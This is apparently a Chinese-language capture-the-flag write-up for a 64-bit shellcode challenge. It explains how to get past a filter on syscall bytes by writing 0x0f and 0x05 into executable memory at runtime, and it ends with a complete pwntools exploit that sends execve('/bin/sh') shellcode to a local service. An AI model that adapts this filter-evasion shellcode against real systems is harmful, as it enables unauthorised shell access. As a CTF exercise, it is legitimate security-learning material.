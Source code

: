 # changeable shellcode

## 文件分析

下载`shellcode`, 保护全开  
ghidra分析为64位程序

## 逆向

有40个字节的空间，并且没有syscall，需要实现打开shell

而存放的地方，更是~~十分甚至是九分的~~奇怪，这个值在rax寄存器中有  
gdb `vmmap`查看发现该区域可读写执行

总体思路就是在这片区域分别连续写入0x5和0xf来绕开检测，
然后跳转到写了syscall`|05|0f|`的地址，
并且除了syscall以外的指令要写到最简以免长度超限

## 踩过的坑

1. 32位的int 0x80好像不能用，就算设置rax=0xb，也无法正常打开shell
2. 不要用ascii转换器，22字节的shellcode可以转出76字节来

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 43877)

code = '''
mov rbx, 0x68732f6e69622f   ; '/bin/sh'
push rbx
mov rdi, rsp                ; rsp现在指向栈上sh字符串位置
xor esi, esi                ; 如果push rsp再用ni会直接运行到底，建议使用si
xor edx, edx
mov qword ptr[rax], 0xf     ; rax -> 0x114514000
nop                         ; preventing optimization
mov qword ptr[rax + 1], 0x5
push 0x3b
pop rax
jmp $ - 0x25                ; 64位的跳转偏移地址是这样的！跳转回0x114514000
'''
# 汇编后39字节，还可以压得更小的也可以开一个discussion

shc = asm(code, arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
